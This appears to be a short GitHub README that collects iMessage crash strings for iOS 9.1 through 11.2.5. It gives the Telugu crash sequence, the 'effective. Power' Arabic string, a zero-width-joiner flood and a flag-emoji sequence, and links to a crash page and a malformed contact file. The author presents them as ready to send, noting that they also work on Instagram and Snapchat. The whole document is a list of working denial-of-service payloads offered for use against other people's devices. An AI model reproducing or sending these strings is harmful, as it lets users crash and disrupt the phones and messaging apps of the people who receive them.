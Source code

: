 # BugCollection
All of the previous iMessage bugs I could find enjoy use responsibly 
THIS CONTAINS NOT 1 but 6 bugs if one doesnt work you have 5 more

Here Is The List

LATEST CRASH
⚠iOS 11.2.5⚠
జ్ఞ ‌ా
WORKS ON ig and sc
must be on ios 11.3 to fix it and send it


iOS 11.2.2
http://cloudftl.github.io/iMessageCrashCode

iOS 10.3 
    ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍   BLAKE    ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍   BLAKE    ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍   BLAKE    ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍       ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍      ‍


iOS 10.2
http://preston159.com/downloads/%EF%BF%BD%EF%BF%BD%EF%B8%8F-0%EF%BF%BD%EF%BF%BD%20%EF%BF%BD%EF%BF%BD%EF%B8%8F-0%EF%BF%BD%EF%BF%BD%202%202.vcf

iOS 10.1.1 
🏳️‍0🌈

iOS 9.1
effective.
Power
‎لُلُصّبُلُلصّبُررً ॣ ॣh ॣ ॣ
冗

Made By Cloud FTL ❤️


